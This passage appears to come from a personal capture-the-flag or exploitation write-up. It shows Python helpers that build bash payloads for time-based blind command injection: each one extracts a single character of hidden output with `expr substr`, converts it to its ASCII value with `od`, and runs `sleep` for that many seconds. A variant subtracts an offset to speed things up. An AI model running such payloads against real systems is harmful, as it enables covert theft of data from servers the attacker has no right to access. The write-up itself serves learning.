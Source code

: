 ``` {.python language="Python"}
#1 indexed, inclusive start and end
def sub_str(start, end):
    with open("substr.sh", mode="rb") as f:
        code = f.read().strip()
    code += b' '
    code += str(start).encode() + b' ' + str(end).encode()
    return (code)    
```

Where 'substr.sh' was the file with the content:
[`expr substr $(CAT)`](https://unix.stackexchange.com/questions/303960/index-a-string-in-bash)

This is the last time I would write code outside of python. I abandoned
the idea of getting information from multiple chars at the same time. I
was considering a binary transport but I didn't want to convert ASCII to
binary in bash. So I sticked with the simple version of sleeping for the
ASCII value for now. I googled for a bash command to convert a char to
it's ascii value and I got `od -An -tuC`. This I could pipe a single
char into and it would output the decimal and octal value. From the man
page of 'od' I couldn't see right away why it would output decimal and
ocal. I filtered it like this to only get the decimal value:

``` {.Bash language="Bash"}
od -An -tuC | awk '{$1=$1; print}' | cut -d' ' -f1
```

The final python function:

``` {.python language="Python"}
# 1 indexed
def sleep_ascii(idx):
    code = sub_str(idx, idx)
    code = code + b" | od -An -tuC | awk '{$1=$1; print}' | cut -d' ' -f1"
    code = b'sleep $(' + code + b')'
    return code
```

To speed the extraction up I implemented this function:

``` {.python language="Python"}
# 1 indexed
# will sleep for the ascii value - the given ofset
def sleep_ascii_offset(idx, offset):
    code = sub_str(idx, idx)
    code += b" | od -An -tuC | awk '{$1=$1; print}' | cut -d' ' -f1"
    code = b'expr $( ' + code + b' ) - ' + str(offset).encode()
    code = b'sleep $(' + code + b')'
    return code
```

My first idea was to start at 128 offset(highest printable ascii value)
and increase it until I get measure sleep time (offset \< ascii value).
I had some strange issues where the output didn't make sense. Looking at
the undo tree of my editor there are several branches with about 100
different states but this state I think shows my idea(not part of the
final source code):
